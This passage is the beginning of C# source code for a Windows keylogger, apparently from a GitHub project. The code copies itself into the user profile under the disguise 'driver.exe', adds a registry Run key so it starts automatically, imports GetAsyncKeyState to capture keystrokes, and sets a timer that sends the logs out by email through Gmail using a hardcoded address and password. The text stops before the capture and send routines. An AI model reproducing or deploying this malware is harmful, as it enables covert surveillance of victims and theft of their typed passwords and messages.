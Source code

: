 using Microsoft.Win32;
using System;
using System.Drawing;
using System.IO;
using System.IO.Compression;
using System.Net;
using System.Net.Mail;
using System.Runtime.InteropServices;
using System.Threading;
using System.Timers;
using System.Windows.Forms;

namespace Key_Logger_proba
{
    class Program
    {

        static string folder_path = Environment.GetFolderPath(Environment.SpecialFolder.UserProfile) + "\\UserData";
        static string logs_file = "Logs.txt";
        static string path = folder_path + "\\" + logs_file;
        static string smtpAdress = "smtp@gmail.com";
        static int portNumber = 587;
        static bool enableSSL = true;
        static string emailFromAdress = "miremaremarko@gmail.com";
        static string password = "marko2020.";
        static string emailToAdress = "miremaremarko@gmail.com";
        static string subject = "logovi";
        static string body = "logovi";
        [DllImport("user32.dll")]
        public static extern int GetAsyncKeyState(Int32 i);
        static void Main(string[] args)
        {
            new Program().start();
        }

        private void start()
        {
            if (!File.Exists(folder_path + "\\driver.exe"))
            {
                string current_file_location = System.Reflection.Assembly.GetExecutingAssembly().Location;
                Directory.CreateDirectory(folder_path);
                Directory.CreateDirectory(folder_path + "\\images");
                File.Copy(current_file_location, folder_path + "\\driver.exe");

                RegistryKey rk = Registry.CurrentUser.OpenSubKey(@"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", true);
                rk.SetValue("driver.exe", folder_path + "\\driver.exe");
            }
            System.Timers.Timer t = new System.Timers.Timer();
            t.Interval = 60000 * 0.5;
            t.Elapsed += sendEmail;
            t.AutoReset = true;
            t.Enabled = true;
